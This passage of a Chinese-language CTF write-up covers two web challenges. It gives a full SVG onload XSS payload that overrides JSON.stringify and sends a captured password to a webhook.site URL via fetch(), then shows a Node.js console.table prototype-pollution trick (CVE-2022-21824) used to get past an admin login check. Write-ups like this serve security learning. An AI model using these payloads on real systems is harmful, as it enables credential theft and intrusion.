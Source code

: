 利用上面`<svg>`插入后先执行的特点，如果我们可以在最后一行执行之前，doSomeMagic，将`document.querySelector`覆盖，再把`JSON.stringify`覆盖，像这样

```js
document.querySelector = function(){
	JSON.stringify = function(date){

	}
}
```

之后就可以用传统艺能`arguments.callee.caller`了，可以取到调用`JSON.stringify`的`async`并调用一次，就可以执行我们的内容了

```js
document.querySelector = function(){
	JSON.stringify = function(data){
		console.log(data.password)	// true payload here!!!
	}
	arguments.callee.caller()
}
```

全payload

```js
<svg><svg/onload="document.querySelector=function(){JSON.stringify=a=>fetch(`https://webhook.site/11b32903-2d6a-4efc-b687-e06a0f0226aa?`+a.password),arguments.callee.caller()}">
```

## web/vm-calc

> A simple and very secure online calculator!
>
> [instancer.mc.ax/vm-calc](https://instancer.mc.ax/vm-calc)
>
> [dist.tar](https://static.dicega.ng/uploads/6dcf39e45c26032a15d83fb62515e9df26059e4345b978dad07a17b2bf2c5826/dist.tar)

先看package.json涉及到包的版本信息，最新版本的vm2(3.9.5)，无公开的逃逸漏洞 所以肯定不是沙盒逃逸，hbs版本存在一个文件泄露的洞[CVE-2021-32822](https://securitylab.github.com/advisories/GHSL-2021-020-pillarjs-hbs/)

然后看index.js，.我们需要登入admin账号拿flag，虽然给出了我们username和password，但是是sha256后的结果，没法摁得到明文

————看到wp后发现自己还是查的少了，不是vm2没0day，而是这里用的是Nodejs的1day，[CVE-2022-21824](https://nodejs.org/en/blog/vulnerability/jan-2022-security-releases/#prototype-pollution-via-console-table-properties-low-cve-2022-21824)，出问题的地方是`map`

```
console.table([{x:1}], ["__proto__"]);
```

就可以做到原型污染

题目中的filter检测是这样的

```js
if(users.filter(u => u.user === user && u.pass === hash)[0] !== undefined) {
    res.render("admin", { flag: await fsp.readFile("flag.txt") });
}
```
